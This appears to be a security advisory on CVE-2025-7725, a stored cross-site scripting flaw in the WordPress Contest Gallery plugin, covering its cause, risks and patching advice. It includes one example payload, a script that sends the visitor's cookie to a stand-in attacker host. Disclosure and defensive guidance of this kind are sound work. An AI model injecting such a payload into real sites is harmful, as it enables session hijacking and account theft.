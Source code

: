 ## New Critical Vulnerability Discovered in WordPress Contest Gallery Plugin

A new critical security vulnerability has been identified in the **Contest Gallery plugin** for WordPress. This flaw poses a significant risk to websites using the plugin, potentially leading to data breaches, unauthorized access, or system compromise. For organizations, an exploited vulnerability can result in severe business impacts, including reputational damage, financial loss, and potential regulatory non-compliance due to exposed data.

### Vulnerability Details

*   **CVE ID:** **CVE-2025-7725**
*   **Affected Software:** The **Photos, Files, YouTube, Twitter, Instagram, TikTok, Ecommerce Contest Gallery – Upload, Vote, Sell via PayPal or Stripe, Social Share Buttons, OpenAI plugin for WordPress**, commonly referred to as the **Contest Gallery plugin**.
*   **Affected Versions:** All versions up to, and including, **26.1.0**.
*   **Technical Cause:** This is a **Stored Cross-Site Scripting (XSS)** vulnerability. The issue stems from insufficient input sanitization and output escaping within the plugin's comment feature. In simple terms, the plugin does not adequately filter or "clean" user-submitted data before storing it, nor does it properly "escape" this data when displaying it on a webpage.
*   **Example:** This flaw allows an unauthenticated attacker to inject malicious web scripts into comment fields. These scripts are then saved to the website's database. When an administrator or any other user views a page containing the injected comment, the malicious script automatically executes in their browser. An attacker could embed code similar to:
    ```html
    <script>window.location='http://malicious.com/?cookie='+document.cookie;</script>
    ```
    This script, for instance, could steal a user's session cookies and send them to an attacker-controlled server.

### Risk Description

Exploiting this **Stored Cross-Site Scripting (XSS)** vulnerability grants unauthenticated attackers the ability to execute arbitrary web scripts in the context of a user's browser. This can lead to several severe consequences:

*   **Session Hijacking:** Attackers can steal user session cookies, allowing them to impersonate logged-in users, including site administrators, without needing their passwords.
*   **Website Defacement:** Malicious scripts can alter the appearance or content of your website.
*   **Malware Injection:** Users visiting the compromised page could be forced to download malware.
*   **Data Theft:** Sensitive information displayed on the page, or data entered by users (e.g., login credentials), could be captured.
*   **Redirecting Users:** Visitors could be silently redirected to malicious websites.
*   **Further Attacks:** A compromised user session can be leveraged to perform more severe actions, such as adding new administrator accounts or injecting persistent malicious code directly into the website.

### Who is at Risk

Any WordPress website currently using the **Contest Gallery plugin** in versions **26.1.0 or older** is immediately at risk. This includes websites running contests, managing user-uploaded content, or leveraging any of the plugin's social sharing and e-commerce functionalities.

### Recommendations

**For Website Owners/Administrators:**

*   **Immediate Update:** The most critical step is to update your **Contest Gallery plugin** to the latest available version without delay. This update contains the necessary patch to address the vulnerability.
*   **Monitor Activity:** After updating, closely monitor your website for any unusual activity, suspicious comments, or unexpected changes.
*   **Regular Backups:** Ensure you maintain current, complete backups of your website files and database. This is crucial for recovery in case of any compromise.

**For Developers & IT Teams:**

*   **Apply Patches:** Immediately apply the official patch released by the plugin developer.
*   **Robust Input Validation:** Implement strict input sanitization on all user-supplied data. This means filtering out or neutralizing any potentially malicious characters or script tags before data is stored in your database.
*   **Secure Output Escaping:** Ensure that all user-generated content is properly escaped before being output to HTML pages. Use appropriate escaping functions provided by your development framework or language (e.g., `wp_kses()`, `esc_html()`, `esc_attr()` in WordPress).
*   **Security Audits:** Conduct regular security audits of your codebase, particularly for features that handle user input and display user-generated content.

### Reference Link

For more detailed technical information and official changes related to this vulnerability, please refer to:
[https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3334370%40contest-gallery%2Ftrunk&old=3333852%40contest-gallery%2Ftrunk&sfp_email=&sfph_mail=](https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3334370%40contest-gallery%2Ftrunk&old=3333852%40contest-gallery%2Ftrunk&sfp_email=&sfph_mail=)